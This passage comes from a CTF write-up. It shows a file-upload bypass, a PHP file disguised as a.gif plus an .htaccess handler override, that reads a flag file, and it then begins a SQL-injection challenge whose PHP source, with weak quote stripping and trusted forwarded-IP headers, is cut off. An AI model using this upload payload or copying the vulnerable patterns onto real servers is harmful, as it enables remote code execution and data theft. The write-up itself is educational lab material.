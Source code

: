 **a.gif**
```php
<?php
$file = fopen("../../flag.php", "r");
while (!feof($file)) {
    $value = fgets($file);
    print "The value of this line is " . $value . "<br>";
}
fclose($file);
?>
```
**.htaccess** : tells the webserver to execute files whose name contains `a.gif` as php under this directory
```
<FilesMatch "a.gif">
SetHandler application/x-httpd-php
</FilesMatch>
```
Opened the url of `a.gif` and we get the flag

**shellme.hackme.cc/sandbox/650564fc50c8c5924c65a9cc36f00b33/a.gif**
```html
The value of this line is The value of this line is // CTF{a_bu_jiu_hao_bang_bang}
```


## TW.edu CTF 2015: SQLAB

---------------------------------------
**Category:** web **Points:** 200 **Solves:**  **Description:**

> http://sqlab.hackme.cc/

**sqlab.hackme.cc**
```html
Index of /
[ICO]   Name    Last modified   Size    Description
[ ] config.php  2016-01-03 08:34    380
[ ] sqlab.php   2016-01-01 13:32    1.6K
[TXT]   sqlab.txt   2016-01-01 13:32    1.6K
Apache/2.4.7 (Ubuntu) Server at sqlab.hackme.cc Port 80
```

**sqlab.txt**
```php
<?php
    include "config.php";

    $conn = mysql_connect($host, $user, $pass);
    mysql_select_db($dbname);


    function escape($str){
        $str = str_replace("'", "", $str);
        return $str;
    }

    function getip(){
        if (!empty($_SERVER['HTTP_CLIENT_IP'])) {
            $ip = $_SERVER['HTTP_CLIENT_IP'];
        } elseif (!empty($_SERVER['HTTP_X_FORWARDED_FOR'])) {
            $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
        } else {
            $ip = $_SERVER['REMOTE_ADDR'];
        }
        return $ip;
    }
```